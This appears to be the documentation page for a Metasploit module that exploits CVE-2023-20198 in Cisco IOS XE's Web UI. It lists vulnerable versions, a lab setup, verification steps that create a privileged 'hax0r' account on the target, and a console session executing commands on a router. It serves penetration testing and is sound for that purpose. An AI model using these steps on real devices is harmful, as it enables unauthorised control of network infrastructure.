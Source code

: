 ## Vulnerable Application
This module leverages CVE-2023-20198 against vulnerable instances of Cisco IOS XE devices which have the
Web UI exposed. An attacker can execute arbitrary CLI commands with privilege level 15.

By default CLI commands are run in the Global configuration mode. To drop down to Privileged EXEC mode,
you can preface your command with the `exit` keyword followed by an (escaped) newline, e.g. To run the command
`show version` in Privileged EXEC mode, the CMD must be `exit\\nshow version`. To run a command in Global
configuration mode, just set the `CMD` option to the command you want to run,
e.g. `username hax0r privilege 15 password hax0r`.

The vulnerable IOS XE versions are:

16.1.1, 16.1.2, 16.1.3, 16.2.1, 16.2.2, 16.3.1, 16.3.2, 16.3.3, 16.3.1a, 16.3.4,
16.3.5, 16.3.5b, 16.3.6, 16.3.7, 16.3.8, 16.3.9, 16.3.10, 16.3.11, 16.4.1, 16.4.2,
16.4.3, 16.5.1, 16.5.1a, 16.5.1b, 16.5.2, 16.5.3, 16.6.1, 16.6.2, 16.6.3, 16.6.4,
16.6.5, 16.6.4s, 16.6.4a, 16.6.5a, 16.6.6, 16.6.5b, 16.6.7, 16.6.7a, 16.6.8, 16.6.9,
16.6.10, 16.7.1, 16.7.1a, 16.7.1b, 16.7.2, 16.7.3, 16.7.4, 16.8.1, 16.8.1a, 16.8.1b,
16.8.1s, 16.8.1c, 16.8.1d, 16.8.2, 16.8.1e, 16.8.3, 16.9.1, 16.9.2, 16.9.1a, 16.9.1b,
16.9.1s, 16.9.1c, 16.9.1d, 16.9.3, 16.9.2a, 16.9.2s, 16.9.3h, 16.9.4, 16.9.3s, 16.9.3a,
16.9.4c, 16.9.5, 16.9.5f, 16.9.6, 16.9.7, 16.9.8, 16.9.8a, 16.9.8b, 16.9.8c, 16.10.1,
16.10.1a, 16.10.1b, 16.10.1s, 16.10.1c, 16.10.1e, 16.10.1d, 16.10.2, 16.10.1f, 16.10.1g,
16.10.3, 16.11.1, 16.11.1a, 16.11.1b, 16.11.2, 16.11.1s, 16.11.1c, 16.12.1, 16.12.1s,
16.12.1a, 16.12.1c, 16.12.1w, 16.12.2, 16.12.1y, 16.12.2a, 16.12.3, 16.12.8, 16.12.2s,
16.12.1x, 16.12.1t, 16.12.2t, 16.12.4, 16.12.3s, 16.12.1z, 16.12.3a, 16.12.4a, 16.12.5,
16.12.6, 16.12.1z1, 16.12.5a, 16.12.5b, 16.12.1z2, 16.12.6a, 16.12.7, 16.12.9, 16.12.10,
17.1.1, 17.1.1a, 17.1.1s, 17.1.2, 17.1.1t, 17.1.3, 17.2.1, 17.2.1r, 17.2.1a, 17.2.1v,
17.2.2, 17.2.3, 17.3.1, 17.3.2, 17.3.3, 17.3.1a, 17.3.1w, 17.3.2a, 17.3.1x, 17.3.1z,
17.3.3a, 17.3.4, 17.3.5, 17.3.4a, 17.3.6, 17.3.4b, 17.3.4c, 17.3.5a, 17.3.5b, 17.3.7,
17.3.8, 17.4.1, 17.4.2, 17.4.1a, 17.4.1b, 17.4.1c, 17.4.2a, 17.5.1, 17.5.1a, 17.5.1b,
17.5.1c, 17.6.1, 17.6.2, 17.6.1w, 17.6.1a, 17.6.1x, 17.6.3, 17.6.1y, 17.6.1z, 17.6.3a,
17.6.4, 17.6.1z1, 17.6.5, 17.6.6, 17.7.1, 17.7.1a, 17.7.1b, 17.7.2, 17.10.1, 17.10.1a,
17.10.1b, 17.8.1, 17.8.1a, 17.9.1, 17.9.1w, 17.9.2, 17.9.1a, 17.9.1x, 17.9.1y, 17.9.3,
17.9.2a, 17.9.1x1, 17.9.3a, 17.9.4, 17.9.1y1, 17.11.1, 17.11.1a, 17.12.1, 17.12.1a,
17.11.99SW

## Testing
This module was tested against IOS XE version 16.12.3. To test this module you will need to either:

* Acquire a hardware device running one of the vulnerable firmware versions listed above.

Or

* Setup a virtualized environment.
  * A [CSR1000V](https://www.cisco.com/c/en/us/products/routers/cloud-services-router-1000v-series/index.html) device
  can be virtualized using [GNS3](https://www.gns3.com/) and VMWare Workstation/Player. Follow the [Windows setup guide](https://docs.gns3.com/docs/getting-started/installation/windows)
  to install GNS3 and the [topology guide](https://docs.gns3.com/docs/getting-started/your-first-gns3-topology) to learn
  how GNS3 can be used.
  * A suitable firmware image for testing would be `csr1000v-universalk9.16.12.03-serial.qcow2`.
  * When setting up GNS3, run the `GNS3 2.2.43` Virtual Machine for deploying QEMU based devices.
  * Create a new CSR1000V instance as a QEMU device.
  * The CSR1000V device's first ethernet adapter `Gi1` should be connected to a Cloud device, who's adapter was bridged
  to the physical adapter on the host machine, allowing an IP address to be assigned via DHCP, and allowing the Web UI to
  be accessible to a remote attacker.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set CMD "username hax0r privilege 15 secret hax0r"`
5. `run`
6. Visit `https://<TARGET_IP_ADDRESS>/webui/` in a browser and log in with username `hax0r` and password `hax0r`.

## Scenarios

```
msf6 > use auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > set RHOST 192.168.86.57
RHOST => 192.168.86.57
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > set CMD "exit\\nshow version"
CMD => exit\nshow version
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > show options

Module options (auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198):

   Name     Current Setting     Required  Description
   ----     ---------------     --------  -----------
   CMD      exit\nshow version  yes       The Global configuration CLI command to execute. To drop to Privileged EXEC mode, preface your CMD with exit\\n, e.g "exit\\nshow version"
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.57       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443                 yes       The target port (TCP)
   SSL      true                no        Negotiate SSL/TLS for outgoing connections
   VHOST                        no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > run
[*] Running module against 192.168.86.57

[*] 
**CLI Line # 2: Cisco IOS XE Software, Version 16.12.03
**CLI Line # 2: Cisco IOS Software [Gibraltar], Virtual XE Software (X86_64_LINUX_IOSD-UNIVERSALK9-M), Version 16.12.3, RELEASE SOFTWARE (fc5)
**CLI Line # 2: Technical Support: http://www.cisco.com/techsupport
**CLI Line # 2: Copyright (c) 1986-2020 by Cisco Systems, Inc.
**CLI Line # 2: Compiled Mon 09-Mar-20 21:50 by mcpre
**CLI Line # 2: Cisco IOS-XE software, Copyright (c) 2005-2020 by cisco Systems, Inc.
**CLI Line # 2: All rights reserved.  Certain components of Cisco IOS-XE software are
**CLI Line # 2: licensed under the GNU General Public License ("GPL") Version 2.0.  The
**CLI Line # 2: software code licensed under GPL Version 2.0 is free software that comes
**CLI Line # 2: with ABSOLUTELY NO WARRANTY.  You can redistribute and/or modify such
**CLI Line # 2: GPL code under the terms of GPL Version 2.0.  For more details, see the
**CLI Line # 2: documentation or "License Notice" file accompanying the IOS-XE software,
**CLI Line # 2: or the applicable URL provided on the flyer accompanying the IOS-XE
**CLI Line # 2: software.
**CLI Line # 2: ROM: IOS-XE ROMMON
**CLI Line # 2: router uptime is 3 hours, 59 minutes
**CLI Line # 2: Uptime for this control processor is 4 hours, 2 minutes
**CLI Line # 2: System returned to ROM by reload
**CLI Line # 2: System image file is "bootflash:packages.conf"
**CLI Line # 2: Last reload reason: reload
**CLI Line # 2: This product contains cryptographic features and is subject to United
**CLI Line # 2: States and local country laws governing import, export, transfer and
**CLI Line # 2: use. Delivery of Cisco cryptographic products does not imply
**CLI Line # 2: third-party authority to import, export, distribute or use encryption.
**CLI Line # 2: Importers, exporters, distributors and users are responsible for
**CLI Line # 2: compliance with U.S. and local country laws. By using this product you
**CLI Line # 2: agree to comply with applicable laws and regulations. If you are unable
**CLI Line # 2: to comply with U.S. and local laws, return this product immediately.
**CLI Line # 2: A summary of U.S. laws governing Cisco cryptographic products may be found at:
**CLI Line # 2: http://www.cisco.com/wwl/export/crypto/tool/stqrg.html
**CLI Line # 2: If you require further assistance please contact us by sending email to
**CLI Line # 2: export@cisco.com.
**CLI Line # 2: License Level: ax
**CLI Line # 2: License Type: N/A(Smart License Enabled)
**CLI Line # 2: Next reload license Level: ax
**CLI Line # 2: Smart Licensing Status: UNREGISTERED/No Licenses in Use
**CLI Line # 2: cisco CSR1000V (VXE) processor (revision VXE) with 1113574K/3075K bytes of memory.
**CLI Line # 2: Processor board ID 9OVFUOGPESO
**CLI Line # 2: 4 Gigabit Ethernet interfaces
**CLI Line # 2: 32768K bytes of non-volatile configuration memory.
**CLI Line # 2: 3012164K bytes of physical memory.
**CLI Line # 2: 6188032K bytes of virtual hard disk at bootflash:.
**CLI Line # 2: 0K bytes of WebUI ODM Files at webui:.
**CLI Line # 2: Configuration register is 0x2102

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > run CMD="exit\\nshow clock"
[*] Running module against 192.168.86.57

[*] 
**CLI Line # 2: *15:24:05.110 UTC Fri Nov 3 2023
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > 
```